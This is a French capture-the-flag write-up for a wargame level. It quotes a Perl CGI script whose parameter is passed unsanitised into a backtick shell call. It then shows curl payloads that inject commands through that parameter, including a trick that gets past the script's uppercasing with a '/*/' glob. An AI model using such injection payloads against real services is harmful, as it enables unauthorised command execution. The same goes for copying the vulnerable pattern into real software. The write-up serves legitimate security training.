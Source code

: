 Dans le répertoire de l'utilisateur, il y a un script perl.
Plus tôt, nous avions trouvés un dossier `/var/www/level12` (impossible à lire avant le level12).
À l'intérieur, le fichier est le même que celui du dossier de l'utilisateur.

Le script contient une adresse : `localhost:4646`. Étant donné qu'il est disponible dans `/var/www`, on peut imaginer qu'on peut l'executer via un appel web via curl par exemple.

Dans le script 

```pl
sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

on voit que les paramètres `x` et `y` sont utilisés, puis `..` est imprimé.

`y` est inutile ici, on ne se concentrera que sur `x`.

`@output = egrep "^$xx" /tmp/xd 2>&1;` semble etre la ligne la plus interessante, on peut voir qu'on peut injecter du code via `$xx`.

On essaye donc d'envoyer une commande via curl:
```bash
curl 127.0.0.1:4646?x='`getflag > /tmp/flag`'
```

ca ne fonctionne pas

On peut voir dans le code que on passe tout ce qui est en lower case en upper case et qu'il supprime tout ce qui est apres un espace.

On va donc creer un script qui va permettre d'appeler le getflag et on lui donne le droit d'execution `+x`.
```bash
echo 'getflag > /tmp/flag' > /tmp/SAUMON && chmod +x /tmp/SAUMON
```

On l'execute avec
```bash
curl 127.0.0.1:4646?x='`/tmp/SAUMON`'
```

Il y'a rien car tmp se transforme en TMP...

On doit donc utiliser `*` a la place qui ne peut pas etre uppercase.

```bash
curl 127.0.0.1:4646?x='`/*/SAUMON`'
```

Puis on affiche le fichier crée et on obtient alors le flag pour le level13.
